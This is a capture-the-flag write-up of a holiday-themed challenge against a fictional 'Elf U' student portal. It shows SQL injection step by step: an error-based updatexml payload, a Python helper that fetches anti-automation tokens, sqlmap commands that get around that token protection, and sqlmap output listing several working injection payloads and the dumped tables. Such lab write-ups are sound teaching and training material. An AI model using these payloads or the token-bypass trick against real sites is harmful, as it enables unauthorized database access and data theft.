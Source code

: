 9) Retrieve Scraps of Paper from Server
=======================================
Challenge
---------
Difficulty: 4/5 

Gain access to the data on the `Student Portal <https://studentportal.elfu.org/>`_ server and retrieve the paper scraps hosted there. What is the name of Santa's cutting-edge sleigh guidance system? For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix.

Answer
------
**Super Sled-o-matic**

Solution
--------
1. Discovery
^^^^^^^^^^^^
The following dialog with Krampus indicated that we were looking for information about Krampus.

    As for those scraps of paper, I scanned those and put the images on my server.
    I then threw the paper away.
    Unfortunately, I managed to lock out my account on the server.
    Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?

We also had the following dialog from Pepper Minstix:

    Have you had any luck retrieving scraps of paper from the Elf U server?
    You might want to look into SQL injection techniques.
    OWASP is always a good resource for web attacks.
    For blind SQLi, I've heard Sqlmap is a great tool.
    In certain circumstances though, you need custom tamper scripts to get things going!

Pepper Minstix also provided with a link to a blog post titled `SQLMap Tamper Scripts for The Win <https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win>`_

The hint from Pepper Minstix was useful because it showed that SQLMap would be helpful for solving the challenge. It also hinted that we may have to perform some customisations with SQLMap to defeat protection mechanisms. 

1.1. Starting artefacts
"""""""""""""""""""""""
* `Student Portal <https://studentportal.elfu.org/>`_

1.2. Initial investigations with Chrome
"""""""""""""""""""""""""""""""""""""""
The student had two pages which accepted user input and could possibly be exploited:

* Apply Now page
* Check Application Status page

1.2.1. Apply Now page
+++++++++++++++++++++
The **Apply Now** page consisted of an application form to study at Elf U with various user submitted fields.

The form has some checks for user input for fields such as the email address. However these checks are client-side and can easily be circumvented by modifying the relevant DOM elements. In this case you can change the ``type="email"`` attribute to ``type="text"``.

The form is submitted using a POST request. Typical form data looked something like:

.. code-block::

    name=1&elfmail=test%40test.com&program=1&phone=1&whyme=1&essay=1&token=MTAxMDQwMTI2MzM2MTU3ODc1MTk3NDEwMTA0MDEyNi4zMzY%3D_MTI5MzMxMzYxNzEwMDgzMjMzMjg0MDQyLjc1Mg%3D%3D

An interesting thing we noticed was that if you submit an application with an identical email field twice, you receive the following error:

.. code-block::

    Error: INSERT INTO applications (name, elfmail, program, phone, whyme, essay, status) VALUES ('1', '1', '1', '1', '1', '1', 'pending') Duplicate entry '1' for key 'elfmail'

The column names in the INSERT statement are the same as the fields used in the above POST request.

If we try injecting some SQL that is illegal, we obtain an error message the the DBMS is MariaDB.

We decided to attempt an inband XPATH injection in the "First Name" input box. The contents of **First Name** should be ``1', '1', 'test@test.com' or updatexml(1,concat(0x7e,(database())),0) or '','1','1','1','pending'); #``. The remaining fields can be anything that passes the client-side filters (e.g. enter something like **test@test.com** for the Email field). The following information is returned showing that the database name is **elfu**

.. code-block::

    Error: INSERT INTO applications (name, elfmail, program, phone, whyme, essay, status) VALUES ('1', '1', 'test@test.com' or updatexml(1,concat(0x7e,(database())),0) or '','1','1','1','pending'); #', 'test@test.com', '1', '1', '1', '1', 'pending')
    XPATH syntax error: '~elfu'

Performing inband injections based on INSERT quickly became tedious and we decided to take a look at the other page.

1.2.2. Check Application Status page
++++++++++++++++++++++++++++++++++++
The **Check Application Status** page consisted of a form with a single Email field from which you could check your application status.

The form was submitted as a GET request. A typical URL looked something like:

.. code-block::

    https://studentportal.elfu.org/application-check.php?elfmail=test%40test.com&token=MTAxMDQwMTE5Mjk2MTU3ODc1MTg2NDEwMTA0MDExOS4yOTY%3D_MTI5MzMxMzUyNjk4ODgzMjMzMjgzODE3LjQ3Mg%3D%3D

The form has some checks for user input for fields such as the email address. However these checks are client-side and can easily be circumvented by modifying the relevant DOM elements. In this case you can change the ``type="email"`` attribute to ``type="text"``.

Peforming an invalid inband injection such as ``';SELECT * FROM applications;#`` returns the following error:

.. code-block::

    Error: SELECT status FROM applications WHERE elfmail = '';SELECT * FROM applications;#';
    You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM applications;#'' at line 1

Exploiting a SELECT query to return data is simpler than using an INSERT query so we decided to concentrate our efforts on this page. 

1.2.3. Token protection
+++++++++++++++++++++++
Both pages that we looked at so far employed a token to protect against automated requests. This also made it more difficult to use an automated tool such as SQLMap.

Before any of the forms was submitted, the code would make a request to https://studentportal.elfu.org/validator.php. A token would be returned in the body of the response. This token would then be submitted as one of the fields during form submission.

.. note::
    With this token protection, performing inband SQL injections works because the form would request the appropriate token.

2. Solving the challenge
^^^^^^^^^^^^^^^^^^^^^^^^
2.1. Modifying SQLmap
"""""""""""""""""""""
SQLMap is a open source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

To use SQLMap with the Student Portal, we needed to find a way to defeat the token protection. The hints described a possible way of doing this was to utilise the tamper functionality and write a custom module. We found the instructions for doing this a bit finicky, and instead chose to use the ``--eval`` option. This option evaluates the provided Python code before each request.

As shown below, we wrote a simple Python script (validate.py) that we placed in the same directory as the SQLMap tool.

.. code-block:: python

    import requests
    def getToken():
        url = 'https://studentportal.elfu.org/validator.php'
        response = requests.get(url)
        token = response.text
        return token

.. note::
    This module has a dependency on the **requests** library which can be installed using something like ``pip install requests``.

To run SQLMap we need to use something like the following:

.. code-block::

    python sqlmap.py -u "https://studentportal.elfu.org/application-check.php?elfmail=test&token=" --eval="import validate;token=validate.getToken()" -v 3

.. note::
    During the automated testing you may get a prompt about 'token' holding a anti-CSRF token. We **do not** want SQLMap to automatically update this token in further requests.

Running the above analysis returns the following as shows that this page is exploitable.

.. code-block::

    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: elfmail (GET)
        Type: boolean-based blind
        Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
        Payload: elfmail=test' OR NOT 9290=9290#&token=
        Vector: OR NOT [INFERENCE]#

        Type: error-based
        Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: elfmail=test' OR (SELECT 4443 FROM(SELECT COUNT(*),CONCAT(0x7178717671,(SELECT (ELT(4443=4443,1))),0x7170786271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- XAHQ&token=
        Vector: OR (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: elfmail=test' AND (SELECT 8445 FROM (SELECT(SLEEP(5)))EOvD)-- yTjJ&token=
        Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
    ---

2.2. Retrieving the needed information from the database
""""""""""""""""""""""""""""""""""""""""""""""""""""""""
We used the following commands to obtain information about the paper scraps. The output has been truncated to show only information of interest.

2.2.1. List databases
+++++++++++++++++++++
.. code-block::

    python sqlmap.py -u "https://studentportal.elfu.org/application-check.php?elfmail=test&token=" --eval="import validate;token=validate.getToken()" --dbs

    available databases [2]:
    [*] elfu
    [*] information_schema

2.2.2. List tables
++++++++++++++++++
.. code-block::

    python sqlmap.py -u "https://studentportal.elfu.org/application-check.php?elfmail=test&token=" --eval="import validate;token=validate.getToken()" --tables

    Database: elfu
    [3 tables]
    +---------------------------------------+
    | applications                          |
    | krampus                               |
    | students                              |
    +---------------------------------------+

    Database: information_schema
    [78 tables]

2.2.3. Dump the krampus table
+++++++++++++++++++++++++++++
.. code-block::

    python sqlmap.py -u "https://studentportal.elfu.org/application-check.php?elfmail=test&token=" --eval="import validate;token=validate.getToken()" --dump -T krampus

    Database: elfu
    Table: krampus
    [6 entries]
    +----+-----------------------+
    | id | path                  |
    +----+-----------------------+
    | 1  | /krampus/0f5f510e.png |
    | 2  | /krampus/1cc7e121.png |
    | 3  | /krampus/439f15e6.png |
    | 4  | /krampus/667d6896.png |
    | 5  | /krampus/adb798ca.png |
    | 6  | /krampus/ba417715.png |
    +----+-----------------------+

2.3. Reconstructing the paper scraps
""""""""""""""""""""""""""""""""""""
We found information about 6 paper scraps in the previous section. To retrieve the scraps we had to simply append the path to **https://studentportal.elfu.org**

After downloading the images, we pasted them into an image editor and aligned the scraps to form the following document (one piece seems to be missing).

.. image:: /images/o9-scraps.png

The name of Santa's cutting-edge sleigh guidance system is **Super Sled-o-matic**
